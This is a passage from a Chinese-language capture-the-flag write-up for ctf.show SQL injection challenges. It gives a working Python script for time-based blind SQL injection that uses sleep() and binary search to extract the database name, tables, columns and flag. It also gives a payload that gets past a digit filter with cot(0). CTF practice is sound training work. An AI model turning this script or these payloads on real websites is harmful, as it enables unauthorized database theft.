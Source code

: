 随便选个写就可以了

```cobol
import string
 
import requests
 
url = "http://8b4bc884-0021-4695-bc9b-2885fab08d7d.challenge.ctf.show/api/?u="
 
# payload ="concat((if(ascii(substr((select database()),{0},1))>{1}, sleep(0.05), 2)), 1);"
# payload ="concat((if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1))>{1}, sleep(0.05), 2)), 1);"
# payload ="concat((if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'),{0},1))>{1}, sleep(0.05), 2)), 1);"
payload ="concat((if(ascii(substr((select group_concat(id,'---',flagaabc) from ctfshow_flaga),{0},1))>{1}, sleep(0.05), 2)), 1);"
flag = ""
 
 
for i in range(1,100):
    high = 128
    low = 32
    mid = (high+low)//2
    while (high>low):
        pay1 = payload.format(i,mid)
        # print(pay1)
        nurl = url+pay1
        # print(nurl)
        try:
            re = requests.get(nurl,timeout=1)
            high=mid
        except Exception as e:
            low = mid + 1
        mid = (low+high)//2
        if chr(mid)==" ":
            exit()
    flag +=chr(mid)
    print(flag)
```

实现注入了

## web223  过滤数字

过滤了数字 通过web185的方法即可绕过

我们的payload 依然是

```lisp
concat((if(ascii(substr((select database()),{0},1))>{1}, username, cot(0)))
```

这里需要通过requests的 params参数传递
